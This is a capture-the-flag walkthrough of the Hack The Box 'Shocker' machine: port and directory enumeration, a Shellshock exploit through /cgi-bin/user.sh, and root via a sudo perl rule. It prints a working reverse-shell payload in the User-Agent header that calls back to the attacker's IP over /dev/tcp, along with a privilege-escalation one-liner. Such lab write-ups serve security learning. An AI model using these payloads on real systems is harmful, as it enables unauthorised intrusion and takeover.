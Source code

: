 #linux 
# Enumeration
## Nmap port scanning

```
nmap -sC -sV shocker.htb
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-16 00:52 EST
Nmap scan report for shocker.htb (10.129.212.59)
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.91 seconds
                                                               
```


Apache 2.4.18
Ubuntu 7.2p2 4ubuntu2.2
https://launchpad.net/ubuntu/+source/openssh/1:7.2p2-4ubuntu2.2



## Gobuster
```
gobuster dir -u http://shocker.htb/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shocker.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/02/16 00:54:01 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/cgi-bin/             (Status: 403) [Size: 294]
/index.html           (Status: 200) [Size: 137]
/server-status        (Status: 403) [Size: 299]
Progress: 4594 / 4615 (99.54%)===============================================================
2023/02/16 00:55:30 Finished
===============================================================
```

CGI program???
/cgi-bin/ is a directory and it might have some sort of scripting language based codes like bash.


status 403 so the directory exists but we are not allowed to access it.

## Feroxbuster
```
feroxbuster -u http://shocker.htb -f -n          
403      GET       11l       32w      294c http://shocker.htb/cgi-bin/
200      GET        9l       13w      137c http://shocker.htb/
403      GET       11l       32w      292c http://shocker.htb/icons/
403      GET       11l       32w      300c http://shocker.htb/server-status/
```

```
feroxbuster -u http://shocker.htb/cgi-bin/ -x sh,cgi,pl
403      GET       11l       32w      294c http://shocker.htb/cgi-bin/
200      GET        7l       18w        0c http://shocker.htb/cgi-bin/user.sh
```

## Visit the website



![[Pasted image 20230216150000.png]]
### /cgi-bin
```
cat user.sh     
Content-Type: text/plain

Just an uptime test script

 01:42:53 up 53 min,  0 users,  load average: 0.11, 0.07, 0.02
```

### uptime command on kali machine
```
┌──(kali㉿kali)-[~/Documents/htb/linux-machine/shocker]
└─$ uptime             
 01:47:34 up 57 min,  2 users,  load average: 0.01, 0.12, 0.09
```


https://www.youtube.com/watch?v=IBlTdguhgfY
###
Get request
![[Pasted image 20230216183854.png]]

Content-Type is text/x-sh, but there is a blank line, so bash does not know what to do so it saves the content as a file.


# Foothold
## Shellshock

Cgi is often vulnerable to shellshock, so shellshock is the direction we are going for.

## NSE (Nmap Script Engine)
```
locate nse | grep shellshock
/usr/share/nmap/scripts/http-shellshock.nse
```

### 
```
less /usr/share/nmap/scripts/http-shellshock.nse
---
-- @usage
-- nmap -sV -p- --script http-shellshock <target>
-- nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/bin,cmd=ls <target>
-- @output
-- PORT   STATE SERVICE REASON
-- 80/tcp open  http    syn-ack
-- | http-shellshock:

```

![[Pasted image 20230216172207.png]]

### ping
`sudo tcpdump -i tun0 icmp` 
```
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
03:27:44.284886 IP shocker.htb > 10.10.14.36: ICMP echo request, id 1595, seq 1, length 64
03:27:44.284907 IP 10.10.14.36 > shocker.htb: ICMP echo reply, id 1595, seq 1, length 64
```

### Shellshock request
```
GET /cgi-bin/user.sh HTTP/1.1
Host: shocker.htb
Upgrade-Insecure-Requests: 1
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.36/1234 0>&1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

### Revere shell
Through burp suite, run the code above and listen on nc
```
nc -lnvp 1234            
listening on [any] 1234 ...
connect to [10.10.14.36] from (UNKNOWN) [10.129.212.59] 46762
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
```

### User flag
```
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt
```


# Priv escalation
## Sudo -l
```
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

```

### perl
https://gtfobins.github.io/gtfobins/perl/


```
sudo perl -e 'exec "/bin/sh";'
```

## Get flag
```
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
whoami
root
```
there is a flag under /root

